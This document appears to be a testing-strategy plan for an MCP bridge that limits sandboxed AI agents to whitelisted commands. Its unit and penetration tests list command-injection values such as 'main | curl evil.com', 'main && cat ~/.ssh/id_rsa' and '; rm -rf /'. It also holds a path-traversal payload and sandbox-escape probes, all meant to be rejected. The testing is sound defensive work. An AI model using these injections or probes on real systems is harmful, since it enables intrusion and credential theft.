

# Testing Strategy for Claudey Bridge (Agent Isolation)

**Date:** 2025-11-29  
**Status:** Planning Phase

## Overview

This document outlines a comprehensive testing strategy for **Claudey Bridge** - a secure MCP server that allows sandboxed AI agents to execute privileged operations through a strictly controlled interface.

**Core Security Goal:** Prevent a sandboxed agent from accessing secrets while allowing it to perform useful tasks via whitelisted operations.

---

## Testing Pyramid



---

## 1. Unit Testing

### 1.1 Tool Definition Parser

**Component:** Parses Markdown files with YAML frontmatter into tool definitions

**Test Cases:**

```go
func TestToolDefinitionParser(t *testing.T) {
    tests := []struct {
        name    string
        input   string
        want    ToolDefinition
        wantErr bool
    }{
        {
            name: "valid tool with enum constraint",
            input: `---
name: deploy_prod
description: Deploy to production
command: ~/scripts/deploy.sh
args:
  - name: environment
    type: enum
    allowed: ["staging", "prod"]
  - name: branch
    type: string
    pattern: "^[a-z0-9-]+$"
    default: "main"
---
# Deploy Tool
Use this to deploy.`,
            want: ToolDefinition{
                Name:        "deploy_prod",
                Description: "Deploy to production",
                Command:     "~/scripts/deploy.sh",
                Args: []ArgDefinition{
                    {Name: "environment", Type: "enum", Allowed: []string{"staging", "prod"}},
                    {Name: "branch", Type: "string", Pattern: "^[a-z0-9-]+$", Default: "main"},
                },
                Documentation: "# Deploy Tool\nUse this to deploy.",
            },
            wantErr: false,
        },
        {
            name: "missing required name field",
            input: `---
description: Deploy to production
command: ~/scripts/deploy.sh
---`,
            wantErr: true,
        },
        {
            name: "invalid regex pattern",
            input: `---
name: test
command: echo
args:
  - name: input
    type: string
    pattern: "[unclosed"
---`,
            wantErr: true,
        },
        {
            name: "enum without allowed values",
            input: `---
name: test
command: echo
args:
  - name: env
    type: enum
---`,
            wantErr: true,
        },
    }
    
    for _, tt := range tests {
        t.Run(tt.name, func(t *testing.T) {
            got, err := ParseToolDefinition(tt.input)
            if (err != nil) != tt.wantErr {
                t.Errorf("ParseToolDefinition() error = %v, wantErr %v", err, tt.wantErr)
                return
            }
            if !tt.wantErr && !reflect.DeepEqual(got, tt.want) {
                t.Errorf("ParseToolDefinition() = %v, want %v", got, tt.want)
            }
        })
    }
}
```

**Coverage Goals:**
- ✅ Valid tool definitions
- ✅ Missing required fields (name, command)
- ✅ Invalid YAML syntax
- ✅ Invalid regex patterns
- ✅ Enum without allowed values
- ✅ Unsupported argument types
- ✅ Malformed frontmatter
- ✅ Empty documentation section
- ✅ Unicode in tool names/descriptions

---

### 1.2 Input Validation Engine

**Component:** Validates tool arguments against JSON Schema constraints

**Critical Security Tests:**

```go
func TestInputValidation_InjectionPrevention(t *testing.T) {
    validator := NewValidator(ToolDefinition{
        Name:    "deploy",
        Command: "~/scripts/deploy.sh",
        Args: []ArgDefinition{
            {
                Name:    "environment",
                Type:    "enum",
                Allowed: []string{"staging", "prod"},
            },
            {
                Name:    "branch",
                Type:    "string",
                Pattern: "^[a-z0-9-]+$",
            },
        },
    })
    
    injectionAttacks := []struct {
        name string
        args map[string]string
    }{
        {"shell command injection", map[string]string{"branch": "; rm -rf /"}},
        {"command substitution", map[string]string{"branch": "$(whoami)"}},
        {"backtick execution", map[string]string{"branch": "`cat /etc/passwd`"}},
        {"path traversal", map[string]string{"branch": "../../../etc/passwd"}},
        {"null byte injection", map[string]string{"branch": "main\x00; evil"}},
        {"newline injection", map[string]string{"branch": "main\nrm -rf /"}},
        {"pipe to command", map[string]string{"branch": "main | curl evil.com"}},
        {"boolean logic", map[string]string{"branch": "main && cat ~/.ssh/id_rsa"}},
        {"invalid enum", map[string]string{"environment": "dev"}},
        {"enum injection", map[string]string{"environment": "prod; cat /etc/passwd"}},
    }
    
    for _, attack := range injectionAttacks {
        t.Run(attack.name, func(t *testing.T) {
            err := validator.Validate(attack.args)
            if err == nil {
                t.Errorf("Expected validation to reject: %v", attack.args)
            }
        })
    }
}

func TestInputValidation_ValidInputs(t *testing.T) {
    validator := NewValidator(ToolDefinition{
        Name:    "deploy",
        Command: "~/scripts/deploy.sh",
        Args: []ArgDefinition{
            {Name: "environment", Type: "enum", Allowed: []string{"staging", "prod"}},
            {Name: "branch", Type: "string", Pattern: "^[a-z0-9-]+$", Default: "main"},
            {Name: "verbose", Type: "boolean"},
        },
    })
    
    validInputs := []struct {
        name string
        args map[string]interface{}
    }{
        {"valid enum and branch", map[string]interface{}{"environment": "staging", "branch": "feature-123"}},
        {"default value used", map[string]interface{}{"environment": "prod"}},
        {"boolean flag", map[string]interface{}{"environment": "staging", "verbose": true}},
    }
    
    for _, test := range validInputs {
        t.Run(test.name, func(t *testing.T) {
            err := validator.Validate(test.args)
            if err != nil {
                t.Errorf("Expected validation to pass: %v, got error: %v", test.args, err)
            }
        })
    }
}

func TestInputValidation_TypeCoercion(t *testing.T) {
    validator := NewValidator(ToolDefinition{
        Args: []ArgDefinition{
            {Name: "count", Type: "integer"},
            {Name: "enabled", Type: "boolean"},
        },
    })
    
    tests := []struct {
        name    string
        args    map[string]interface{}
        wantErr bool
    }{
        {"valid integer", map[string]interface{}{"count": 42}, false},
        {"string as integer", map[string]interface{}{"count": "42"}, true},
        {"float as integer", map[string]interface{}{"count": 42.5}, true},
        {"valid boolean", map[string]interface{}{"enabled": true}, false},
        {"string as boolean", map[string]interface{}{"enabled": "true"}, true},
    }
    
    for _, tt := range tests {
        t.Run(tt.name, func(t *testing.T) {
            err := validator.Validate(tt.args)
            if (err != nil) != tt.wantErr {
                t.Errorf("Validate() error = %v, wantErr %v", err, tt.wantErr)
            }
        })
    }
}
```

**Coverage Goals:**
- ✅ All injection attack vectors blocked
- ✅ Valid inputs accepted
- ✅ Default values applied
- ✅ Type validation (string, integer, boolean, enum)
- ✅ Regex pattern matching
- ✅ Required vs optional parameters
- ✅ Unicode handling
- ✅ Empty string handling

---

### 1.3 Command Executor

**Component:** Executes validated commands and captures output

**Test Cases:**

```go
func TestCommandExecutor(t *testing.T) {
    executor := NewCommandExecutor()
    
    t.Run("successful execution", func(t *testing.T) {
        result, err := executor.Execute(Command{
            Path: "/bin/echo",
            Args: []string{"hello", "world"},
        })
        
        assert.NoError(t, err)
        assert.Equal(t, 0, result.ExitCode)
        assert.Equal(t, "hello world\n", result.Stdout)
        assert.Empty(t, result.Stderr)
    })
    
    t.Run("command with stderr", func(t *testing.T) {
        result, err := executor.Execute(Command{
            Path: "/bin/sh",
            Args: []string{"-c", "echo error >&2"},
        })
        
        assert.NoError(t, err)
        assert.Equal(t, "error\n", result.Stderr)
    })
    
    t.Run("non-zero exit code", func(t *testing.T) {
        result, err := executor.Execute(Command{
            Path: "/bin/sh",
            Args: []string{"-c", "exit 42"},
        })
        
        assert.NoError(t, err)
        assert.Equal(t, 42, result.ExitCode)
    })
    
    t.Run("timeout enforcement", func(t *testing.T) {
        result, err := executor.Execute(Command{
            Path:    "/bin/sleep",
            Args:    []string{"10"},
            Timeout: 100 * time.Millisecond,
        })
        
        assert.Error(t, err)
        assert.Contains(t, err.Error(), "timeout")
    })
    
    t.Run("working directory", func(t *testing.T) {
        tmpDir := t.TempDir()
        result, err := executor.Execute(Command{
            Path:       "/bin/pwd",
            WorkingDir: tmpDir,
        })
        
        assert.NoError(t, err)
        assert.Equal(t, tmpDir+"\n", result.Stdout)
    })
    
    t.Run("environment variables isolated", func(t *testing.T) {
        // Set a test env var
        os.Setenv("SECRET_TOKEN", "should-not-leak")
        
        result, err := executor.Execute(Command{
            Path: "/bin/sh",
            Args: []string{"-c", "echo $SECRET_TOKEN"},
            Env:  []string{}, // Empty env
        })
        
        assert.NoError(t, err)
        assert.Equal(t, "\n", result.Stdout) // Should be empty
    })
    
    t.Run("command not found", func(t *testing.T) {
        _, err := executor.Execute(Command{
            Path: "/nonexistent/command",
        })
        
        assert.Error(t, err)
    })
}
```

**Coverage Goals:**
- ✅ Successful execution with stdout
- ✅ Stderr capture
- ✅ Exit code handling
- ✅ Timeout enforcement
- ✅ Working directory setting
- ✅ Environment variable isolation
- ✅ Command not found errors
- ✅ Permission denied errors

---

### 1.4 MCP Protocol Handler

**Component:** Implements MCP server protocol with three tools

**Test Cases:**

```go
func TestMCPProtocolHandler(t *testing.T) {
    handler := NewMCPHandler(Config{
        ToolsDir: "testdata/tools",
    })
    
    t.Run("list_programs returns all tools", func(t *testing.T) {
        result := handler.HandleToolCall("list_programs", nil)
        
        assert.NoError(t, result.Error)
        programs := result.Data.([]Program)
        assert.Len(t, programs, 2)
        assert.Equal(t, "deploy_prod", programs[0].Name)
        assert.Equal(t, "restart_db", programs[1].Name)
    })
    
    t.Run("help returns tool documentation", func(t *testing.T) {
        result := handler.HandleToolCall("help", map[string]interface{}{
            "program": "deploy_prod",
        })
        
        assert.NoError(t, result.Error)
        doc := result.Data.(string)
        assert.Contains(t, doc, "# Deploy to Production")
        assert.Contains(t, doc, "Examples")
    })
    
    t.Run("help for nonexistent tool", func(t *testing.T) {
        result := handler.HandleToolCall("help", map[string]interface{}{
            "program": "nonexistent",
        })
        
        assert.Error(t, result.Error)
        assert.Contains(t, result.Error.Error(), "not found")
    })
    
    t.Run("execute with valid args", func(t *testing.T) {
        result := handler.HandleToolCall("execute", map[string]interface{}{
            "program": "deploy_prod",
            "args":    []string{"staging", "main"},
        })
        
        assert.NoError(t, result.Error)
        assert.Contains(t, result.Data, "Deployment successful")
    })
    
    t.Run("execute with invalid args", func(t *testing.T) {
        result := handler.HandleToolCall("execute", map[string]interface{}{
            "program": "deploy_prod",
            "args":    []string{"dev"}, // Invalid enum value
        })
        
        assert.Error(t, result.Error)
        assert.Contains(t, result.Error.Error(), "validation failed")
    })
    
    t.Run("JSON Schema generation", func(t *testing.T) {
        schema := handler.GetToolSchema("execute")
        
        assert.NotNil(t, schema)
        assert.Equal(t, "object", schema.Type)
        assert.Contains(t, schema.Properties, "program")
        assert.Contains(t, schema.Properties, "args")
    })
}
```

**Coverage Goals:**
- ✅ `list_programs()` returns all tools
- ✅ `help(program)` returns documentation
- ✅ `help()` for nonexistent tool errors
- ✅ `execute()` with valid arguments
- ✅ `execute()` with invalid arguments
- ✅ JSON Schema generation from YAML
- ✅ SSE connection handling
- ✅ Error response formatting

---

## 2. Integration Testing

### 2.1 Linux: Bubblewrap Sandbox Integration

**Test Environment Setup:**

```bash
#!/bin/bash
# tests/integration/setup_sandbox.sh

# Create test workspace
TEST_WORKSPACE=$(mktemp -d)
echo "Test file" > "$TEST_WORKSPACE/README.md"

# Create fake secrets
mkdir -p ~/.test-secrets
echo "SECRET_KEY=12345" > ~/.test-secrets/credentials

# Start bridge on host
claudey-bridge serve --port 3000 --config tests/fixtures/bridge-config.yaml &
BRIDGE_PID=$!

# Give bridge time to start
sleep 1

echo "Bridge PID: $BRIDGE_PID"
echo "Test workspace: $TEST_WORKSPACE"
```

**Test Cases:**

```bash
#!/bin/bash
# tests/integration/test_sandbox_linux.sh

test_agent_cannot_read_secrets() {
    echo "Test: Agent cannot read secrets"
    
    # Try to read secrets from sandbox
    bwrap \
        --ro-bind / / \
        --dev-bind /dev /dev \
        --proc /proc \
        --tmpfs "$HOME" \
        --bind "$TEST_WORKSPACE" "$TEST_WORKSPACE" \
        --setenv HOME "$HOME" \
        cat "$HOME/.test-secrets/credentials" 2>&1
    
    EXIT_CODE=$?
    
    if [ $EXIT_CODE -eq 0 ]; then
        echo "FAIL: Agent was able to read secrets!"
        return 1
    fi
    
    echo "PASS: Agent blocked from reading secrets"
    return 0
}

test_agent_can_read_workspace() {
    echo "Test: Agent can read workspace"
    
    OUTPUT=$(bwrap \
        --ro-bind / / \
        --dev-bind /dev /dev \
        --proc /proc \
        --tmpfs "$HOME" \
        --bind "$TEST_WORKSPACE" "$TEST_WORKSPACE" \
        --setenv HOME "$HOME" \
        cat "$TEST_WORKSPACE/README.md")
    
    if [ "$OUTPUT" != "Test file" ]; then
        echo "FAIL: Agent could not read workspace"
        return 1
    fi
    
    echo "PASS: Agent can read workspace"
    return 0
}

test_agent_can_connect_to_bridge() {
    echo "Test: Agent can connect to bridge via network"
    
    OUTPUT=$(bwrap \
        --ro-bind / / \
        --dev-bind /dev /dev \
        --proc /proc \
        --tmpfs "$HOME" \
        --bind "$TEST_WORKSPACE" "$TEST_WORKSPACE" \
        --setenv HOME "$HOME" \
        --share-net \
        curl -s http://localhost:3000/mcp)
    
    if [ -z "$OUTPUT" ]; then
        echo "FAIL: Agent could not connect to bridge"
        return 1
    fi
    
    echo "PASS: Agent connected to bridge"
    return 0
}

test_bridge_has_host_access() {
    echo "Test: Bridge (outside sandbox) can access secrets"
    
    # Bridge should be able to read secrets
    if ! curl -s http://localhost:3000/mcp \
        -d '{"tool": "execute", "args": {"program": "read_secret", "args": []}}' \
        | grep -q "SECRET_KEY"; then
        echo "FAIL: Bridge cannot access secrets"
        return 1
    fi
    
    echo "PASS: Bridge has host access"
    return 0
}

test_symlink_escape_blocked() {
    echo "Test: Symlink escape attempt blocked"
    
    bwrap \
        --ro-bind / / \
        --dev-bind /dev /dev \
        --proc /proc \
        --tmpfs "$HOME" \
        --bind "$TEST_WORKSPACE" "$TEST_WORKSPACE" \
        --setenv HOME "$HOME" \
        bash -c "
            ln -s $HOME/.test-secrets/credentials $TEST_WORKSPACE/secret
            cat $TEST_WORKSPACE/secret
        " 2>&1
    
    EXIT_CODE=$?
    
    if [ $EXIT_CODE -eq 0 ]; then
        echo "FAIL: Symlink escape succeeded!"
        return 1
    fi
    
    echo "PASS: Symlink escape blocked"
    return 0
}

# Run all tests
test_agent_cannot_read_secrets
test_agent_can_read_workspace
test_agent_can_connect_to_bridge
test_bridge_has_host_access
test_symlink_escape_blocked
```

---

### 2.2 macOS: Seatbelt Sandbox Integration

**Seatbelt Profile:**

```scheme
; tests/fixtures/claudey-agent.sb
(version 1)

; Allow system libraries and frameworks (required for stability)
(allow file-read*
    (subpath "/System")
    (subpath "/usr/lib")
    (subpath "/Library/Frameworks"))

; Allow network access to localhost only
(allow network-outbound
    (remote ip "localhost:*"))

; BLOCK: Deny all access to home directory by default
(deny file-read* file-write*
    (subpath (param "HOME")))

; EXCEPTION: Allow workspace access
(allow file-read* file-write*
    (subpath (param "WORKSPACE")))

; EXCEPTION: Allow cache directories
(allow file-read* file-write*
    (subpath (string-append (param "HOME") "/Library/Caches")))

; Block access to sensitive directories
(deny file-read*
    (subpath (string-append (param "HOME") "/.ssh"))
    (subpath (string-append (param "HOME") "/.aws"))
    (subpath (string-append (param "HOME") "/.config")))
```

**Test Cases:**

```bash
#!/bin/bash
# tests/integration/test_sandbox_macos.sh

test_seatbelt_blocks_ssh_keys() {
    echo "Test: Seatbelt blocks SSH key access"
    
    sandbox-exec \
        -p tests/fixtures/claudey-agent.sb \
        -D HOME="$HOME" \
        -D WORKSPACE="$TEST_WORKSPACE" \
        cat "$HOME/.ssh/id_rsa" 2>&1
    
    EXIT_CODE=$?
    
    if [ $EXIT_CODE -eq 0 ]; then
        echo "FAIL: Seatbelt allowed SSH key access!"
        return 1
    fi
    
    echo "PASS: Seatbelt blocked SSH key access"
    return 0
}

test_seatbelt_allows_workspace() {
    echo "Test: Seatbelt allows workspace access"
    
    OUTPUT=$(sandbox-exec \
        -p tests/fixtures/claudey-agent.sb \
        -D HOME="$HOME" \
        -D WORKSPACE="$TEST_WORKSPACE" \
        cat "$TEST_WORKSPACE/README.md")
    
    if [ "$OUTPUT" != "Test file" ]; then
        echo "FAIL: Seatbelt blocked workspace access"
        return 1
    fi
    
    echo "PASS: Seatbelt allows workspace access"
    return 0
}

test_seatbelt_allows_localhost_network() {
    echo "Test: Seatbelt allows localhost network"
    
    OUTPUT=$(sandbox-exec \
        -p tests/fixtures/claudey-agent.sb \
        -D HOME="$HOME" \
        -D WORKSPACE="$TEST_WORKSPACE" \
        curl -s http://localhost:3000/mcp)
    
    if [ -z "$OUTPUT" ]; then
        echo "FAIL: Seatbelt blocked localhost network"
        return 1
    fi
    
    echo "PASS: Seatbelt allows localhost network"
    return 0
}

# Run all tests
test_seatbelt_blocks_ssh_keys
test_seatbelt_allows_workspace
test_seatbelt_allows_localhost_network
```

---

### 2.3 End-to-End Workflow Tests

**Scenario: Deploy to Staging**

```python
# tests/e2e/test_deployment_workflow.py
import subprocess
import requests
import time

def test_deployment_workflow():
    """
    Test complete workflow:
    1. Start bridge on host
    2. Start agent in sandbox
    3. Agent calls bridge to deploy
    4. Verify deployment succeeded
    """
    
    # Start bridge
    bridge_process = subprocess.Popen([
        "claudey-bridge", "serve",
        "--port", "3000",
        "--config", "tests/fixtures/bridge-config.yaml"
    ])
    time.sleep(1)
    
    try:
        # Simulate agent calling bridge
        response = requests.post("http://localhost:3000/mcp", json={
            "jsonrpc": "2.0",
            "id": 1,
            "method": "tools/call",
            "params": {
                "name": "execute",
                "arguments": {
                    "program": "deploy_prod",
                    "args": ["staging", "main"]
                }
            }
        })
        
        assert response.status_code == 200
        result = response.json()
        assert "error" not in result
        assert "Deployment successful" in result["result"]["content"][0]["text"]
        
    finally:
        bridge_process.terminate()
        bridge_process.wait()

def test_invalid_deployment_blocked():
    """Test that invalid arguments are rejected"""
    
    bridge_process = subprocess.Popen([
        "claudey-bridge", "serve",
        "--port", "3000",
        "--config", "tests/fixtures/bridge-config.yaml"
    ])
    time.sleep(1)
    
    try:
        # Try to deploy with invalid environment
        response = requests.post("http://localhost:3000/mcp", json={
            "jsonrpc": "2.0",
            "id": 1,
            "method": "tools/call",
            "params": {
                "name": "execute",
                "arguments": {
                    "program": "deploy_prod",
                    "args": ["dev"]  # Invalid enum value
                }
            }
        })
        
        result = response.json()
        assert "error" in result
        assert "validation failed" in result["error"]["message"].lower()
        
    finally:
        bridge_process.terminate()
        bridge_process.wait()
```

---

## 3. Security Testing

### 3.1 Penetration Testing

**Attack Scenarios:**

```bash
#!/bin/bash
# tests/security/penetration_tests.sh

echo "=== Claudey Bridge Penetration Tests ==="

test_proc_filesystem_escape() {
    echo "Test: Attempt to access /proc/1/root"
    
    bwrap \
        --ro-bind / / \
        --dev-bind /dev /dev \
        --proc /proc \
        --tmpfs "$HOME" \
        cat /proc/1/root/etc/passwd 2>&1
    
    if [ $? -eq 0 ]; then
        echo "FAIL: /proc escape succeeded!"
        exit 1
    fi
    
    echo "PASS: /proc escape blocked"
}

test_device_file_access() {
    echo "Test: Attempt to access /dev/mem"
    
    bwrap \
        --ro-bind / / \
        --dev-bind /dev /dev \
        --proc /proc \
        --tmpfs "$HOME" \
        cat /dev/mem 2>&1
    
    if [ $? -eq 0 ]; then
        echo "FAIL: /dev/mem access succeeded!"
        exit 1
    fi
    
    echo "PASS: /dev/mem access blocked"
}

test_mount_namespace_escape() {
    echo "Test: Attempt mount namespace escape"
    
    bwrap \
        --ro-bind / / \
        --dev-bind /dev /dev \
        --proc /proc \
        --tmpfs "$HOME" \
        mount --bind / /tmp/escape 2>&1
    
    if [ $? -eq 0 ]; then
        echo "FAIL: Mount escape succeeded!"
        exit 1
    fi
    
    echo "PASS: Mount escape blocked"
}

test_command_injection_via_bridge() {
    echo "Test: Command injection via bridge API"
    
    ATTACKS=(
        '"; cat /etc/passwd"'
        '"$(whoami)"'
        '"`id`"'
        '"main && cat ~/.ssh/id_rsa"'
        '"main | curl evil.com"'
    )
    
    for attack in "${ATTACKS[@]}"; do
        RESPONSE=$(curl -s -X POST http://localhost:3000/mcp \
            -H "Content-Type: application/json" \
            -d "{
                \"jsonrpc\": \"2.0\",
                \"id\": 1,
                \"method\": \"tools/call\",
                \"params\": {
                    \"name\": \"execute\",
                    \"arguments\": {
                        \"program\": \"deploy_prod\",
                        \"args\": [\"staging\", $attack]
                    }
                }
            }")
        
        if echo "$RESPONSE" | grep -q '"error"'; then
            echo "PASS: Blocked injection: $attack"
        else
            echo "FAIL: Injection succeeded: $attack"
            exit 1
        fi
    done
}

test_path_traversal() {
    echo "Test: Path traversal in program name"
    
    RESPONSE=$(curl -s -X POST http://localhost:3000/mcp \
        -H "Content-Type: application/json" \
        -d '{
            "jsonrpc": "2.0",
            "id": 1,
            "method": "tools/call",
            "params": {
                "name": "execute",
                "arguments": {
                    "program": "../../../bin/bash",
                    "args": ["-c", "cat /etc/passwd"]
                }
            }
        }')
    
    if echo "$RESPONSE" | grep -q '"error"'; then
        echo "PASS: Path traversal blocked"
    else
        echo "FAIL: Path traversal succeeded!"
        exit 1
    fi
}

# Run all tests
test_proc_filesystem_escape
test_device_file_access
test_mount_namespace_escape
test_command_injection_via_bridge
test_path_traversal

echo "=== All penetration tests passed ==="
```

---

### 3.2 Fuzzing

**Input Fuzzing with Hypothesis:**

```python
# tests/security/fuzz_input_validation.py
from hypothesis import given, strategies as st
import json

@given(st.text())
def test_tool_name_never_crashes(tool_name):
    """Tool name validation should never crash"""
    try:
        result = validate_tool_name(tool_name)
        assert isinstance(result, bool)
    except Exception as e:
        # Should only raise ValidationError, not crash
        assert isinstance(e, ValidationError)

@given(st.dictionaries(st.text(), st.text()))
def test_argument_validation_never_crashes(args):
    """Argument validation should handle arbitrary input"""
    try:
        result = validate_arguments(args, tool_definition)
        assert result.is_valid or result.error is not None
    except Exception as e:
        assert isinstance(e, ValidationError)

@given(st.text(min_size=1, max_size=1000))
def test_regex_pattern_never_crashes(pattern):
    """Regex compilation should never crash"""
    try:
        compile_pattern(pattern)
    except (ValidationError, re.error):
        pass  # Expected for invalid patterns
    except Exception as e:
        raise AssertionError(f"Unexpected exception: {e}")

@given(st.binary())
def test_yaml_parser_handles_binary(data):
    """YAML parser should handle arbitrary binary data"""
    try:
        parse_tool_definition(data)
    except (YAMLError, ValidationError, UnicodeDecodeError):
        pass  # Expected
    except Exception as e:
        raise AssertionError(f"Unexpected exception: {e}")
```

**Protocol Fuzzing:**

```bash
#!/bin/bash
# tests/security/fuzz_mcp_protocol.sh

# Generate random MCP requests
python3 << 'EOF'
import json
import random
import string
import requests

def random_string(length=10):
    return ''.join(random.choices(string.printable, k=length))

def random_json():
    return {
        random_string(): random_string()
        for _ in range(random.randint(0, 10))
    }

# Fuzz 1000 random requests
for i in range(1000):
    payload = {
        "jsonrpc": random_string(),
        "id": random.randint(-1000, 1000),
        "method": random_string(),
        "params": random_json()
    }
    
    try:
        response = requests.post(
            "http://localhost:3000/mcp",
            json=payload,
            timeout=1
        )
        # Should always return valid JSON, never crash
        response.json()
    except requests.exceptions.Timeout:
        print(f"Request {i}: Timeout (acceptable)")
    except json.JSONDecodeError:
        print(f"Request {i}: FAIL - Invalid JSON response!")
        exit(1)
    except Exception as e:
        print(f"Request {i}: FAIL - {e}")
        exit(1)

print("Fuzzing completed successfully")
EOF
```

---

## 4. Chaos Engineering

### 4.1 Bridge Failure Scenarios

```python
# tests/chaos/test_bridge_failures.py
import subprocess
import time
import signal

def test_bridge_crash_during_execution():
    """Test agent behavior when bridge crashes mid-execution"""
    
    # Start bridge
    bridge = subprocess.Popen(["claudey-bridge", "serve", "--port", "3000"])
    time.sleep(1)
    
    # Start long-running operation
    agent = subprocess.Popen([
        "curl", "-X", "POST", "http://localhost:3000/mcp",
        "-d", json.dumps({
            "method": "tools/call",
            "params": {
                "name": "execute",
                "arguments": {
                    "program": "long_running_task",
                    "args": []
                }
            }
        })
    ], stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    
    # Kill bridge after 0.5 seconds
    time.sleep(0.5)
    bridge.send_signal(signal.SIGKILL)
    
    # Agent should receive error, not hang
    stdout, stderr = agent.communicate(timeout=5)
    
    assert agent.returncode != 0
    assert b"connection" in stderr.lower() or b"error" in stderr.lower()

def test_bridge_restart_recovery():
    """Test that bridge can restart and resume service"""
    
    # Start bridge
    bridge = subprocess.Popen(["claudey-bridge", "serve", "--port", "3000"])
    time.sleep(1)
    
    # Make successful request
    response1 = requests.post("http://localhost:3000/mcp", json={
        "method": "tools/call",
        "params": {"name": "list_programs"}
    })
    assert response1.status_code == 200
    
    # Kill and restart bridge
    bridge.terminate()
    bridge.wait()
    time.sleep(1)
    
    bridge = subprocess.Popen(["claudey-bridge", "serve", "--port", "3000"])
    time.sleep(1)
    
    # Should work again
    response2 = requests.post("http://localhost:3000/mcp", json={
        "method": "tools/call",
        "params": {"name": "list_programs"}
    })
    assert response2.status_code == 200
    
    bridge.terminate()

def test_network_partition():
    """Test behavior when network between agent and bridge fails"""
    
    # This would require network simulation tools like tc (traffic control)
    # Simplified version: test timeout behavior
    
    # Start bridge with artificial delay
    bridge = subprocess.Popen([
        "claudey-bridge", "serve", "--port", "3000", "--delay", "10s"
    ])
    time.sleep(1)
    
    # Agent request with short timeout
    try:
        requests.post(
            "http://localhost:3000/mcp",
            json={"method": "tools/call", "params": {"name": "list_programs"}},
            timeout=1
        )
        assert False, "Should have timed out"
    except requests.exceptions.Timeout:
        pass  # Expected
    
    bridge.terminate()
```

### 4.2 Configuration Corruption

```python
def test_invalid_config_handling():
    """Test bridge behavior with corrupted config"""
    
    # Write invalid YAML
    with open("tests/tmp/invalid-config.yaml", "w") as f:
        f.write("invalid: yaml: syntax: [")
    
    # Bridge should fail to start with clear error
    result = subprocess.run(
        ["claudey-bridge", "serve", "--config", "tests/tmp/invalid-config.yaml"],
        capture_output=True,
        timeout=5
    )
    
    assert result.returncode != 0
    assert b"config" in result.stderr.lower() or b"yaml" in result.stderr.lower()

def test_config_hot_reload():
    """Test configuration hot-reload without restart"""
    
    # Start bridge with initial config
    config_path = "tests/tmp/hot-reload-config.yaml"
    write_config(config_path, tools=["tool1"])
    
    bridge = subprocess.Popen([
        "claudey-bridge", "serve", "--port", "3000", "--config", config_path
    ])
    time.sleep(1)
    
    # Verify initial tool list
    response = requests.post("http://localhost:3000/mcp", json={
        "method": "tools/call",
        "params": {"name": "list_programs"}
    })
    tools = response.json()["result"]
    assert len(tools) == 1
    
    # Update config
    write_config(config_path, tools=["tool1", "tool2"])
    time.sleep(2)  # Wait for hot-reload
    
    # Verify updated tool list
    response = requests.post("http://localhost:3000/mcp", json={
        "method": "tools/call",
        "params": {"name": "list_programs"}
    })
    tools = response.json()["result"]
    assert len(tools) == 2
    
    bridge.terminate()
```

---

## 5. Performance Testing

### 5.1 Latency Benchmarks

```python
# tests/performance/test_latency.py
import time
import statistics

def test_validation_latency():
    """Input validation should be < 1ms"""
    
    validator = create_validator()
    latencies = []
    
    for _ in range(1000):
        start = time.perf_counter()
        validator.validate({"environment": "staging", "branch": "main"})
        latencies.append((time.perf_counter() - start) * 1000)  # Convert to ms
    
    avg_latency = statistics.mean(latencies)
    p99_latency = statistics.quantiles(latencies, n=100)[98]
    
    print(f"Average latency: {avg_latency:.3f}ms")
    print(f"P99 latency: {p99_latency:.3f}ms")
    
    assert avg_latency < 1.0, f"Average latency too high: {avg_latency}ms"
    assert p99_latency < 5.0, f"P99 latency too high: {p99_latency}ms"

def test_mcp_handler_latency():
    """MCP request handling should be < 10ms (excluding command execution)"""
    
    handler = create_mcp_handler()
    latencies = []
    
    for _ in range(1000):
        start = time.perf_counter()
        handler.handle_tool_call("list_programs", None)
        latencies.append((time.perf_counter() - start) * 1000)
    
    avg_latency = statistics.mean(latencies)
    
    print(f"MCP handler average latency: {avg_latency:.3f}ms")
    assert avg_latency < 10.0
```

### 5.2 Throughput Testing

```bash
#!/bin/bash
# tests/performance/test_throughput.sh

# Start bridge
claudey-bridge serve --port 3000 &
BRIDGE_PID=$!
sleep 1

# Load test with Apache Bench
ab -n 10000 -c 100 -p tests/fixtures/list_programs_request.json \
   -T application/json \
   http://localhost:3000/mcp

# Cleanup
kill $BRIDGE_PID
```

---

## 6. CI/CD Integration

### 6.1 GitHub Actions Workflow

```yaml
# .github/workflows/claudey-bridge-tests.yml
name: Claudey Bridge Tests

on: [push, pull_request]

jobs:
  unit-tests:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      
      - name: Set up Go
        uses: actions/setup-go@v4
        with:
          go-version: '1.21'
      
      - name: Run unit tests
        run: go test -v -race -coverprofile=coverage.out ./...
      
      - name: Upload coverage
        uses: codecov/codecov-action@v3
        with:
          files: ./coverage.out
  
  integration-tests-linux:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      
      - name: Install bubblewrap
        run: sudo apt-get update && sudo apt-get install -y bubblewrap
      
      - name: Run sandbox integration tests
        run: bash tests/integration/test_sandbox_linux.sh
  
  integration-tests-macos:
    runs-on: macos-latest
    steps:
      - uses: actions/checkout@v3
      
      - name: Run Seatbelt integration tests
        run: bash tests/integration/test_sandbox_macos.sh
  
  security-tests:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      
      - name: Install bubblewrap
        run: sudo apt-get update && sudo apt-get install -y bubblewrap
      
      - name: Run penetration tests
        run: bash tests/security/penetration_tests.sh
      
